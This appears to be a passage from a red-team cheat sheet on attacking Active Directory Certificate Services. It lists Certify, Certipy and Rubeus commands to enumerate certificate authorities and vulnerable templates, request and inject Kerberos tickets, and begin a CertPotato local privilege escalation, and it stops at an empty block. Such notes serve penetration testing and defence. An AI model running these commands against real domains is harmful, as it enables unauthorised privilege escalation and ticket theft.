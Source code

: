 ````

```
python3 aclpwn.py --restore aclpwn.restore
```

## Active Directory Certificate Services
- Whitepaper https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf
- https://www.thehacker.recipes/ad/movement/ad-cs
- https://github.com/GhostPack/Certify
- https://github.com/ly4k/Certipy

### Enumeration
#### Find AD CS Certificate authorities (CA's)
```
Get-ADObject -Filter * -SearchBase 'CN=Certification Authorities,CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<DOMAIN>'

Get-DomainGroupMember "Cert Publishers"

.\Certify.exe cas

certipy find -u '<USER>@<DOMAIN>' -p '<PASSWORD>' -dc-ip '<DC_IP>' -stdout
```

#### List all templates
```
.\Certify.exe find

certipy find -u '<USER>@<DOMAIN>' -p '<PASSWORD>' -dc-ip '<DC_IP>' -stdout
```

#### Enumerate vulnerable templates
- This checks also for `Object Control`, if you have multiple users then don't run `/vulnerable` but check manually!
 ```
.\Certify.exe find /vulnerable

certipy find -u '<USER>@<DOMAIN>' -p '<PASSWORD>' -dc-ip '<DC_IP>' -old-bloodhound
certipy find -u '<USER>@<DOMAIN>' -p '<PASSWORD>' -dc-ip '<DC_IP>' -vulnerable -stdout
```

### Local privesc CertPotato
- Requirements
	- ADCS configured & Machine template
	- Access to Virtual or network service account

### Windows
#### Get TGT on target machine
```
.\Rubeus.exe tgtdeleg /nowrap
```

#### Inject ticket
```
.\Rubeus ptt /ticket:<BASE64 TICKET>
```

#### Check for machine template
- Check for `pkiextendedkeyusage` set to `Client Authentication`
```
.\Certify.exe find
```

#### Request template using machine template
```
````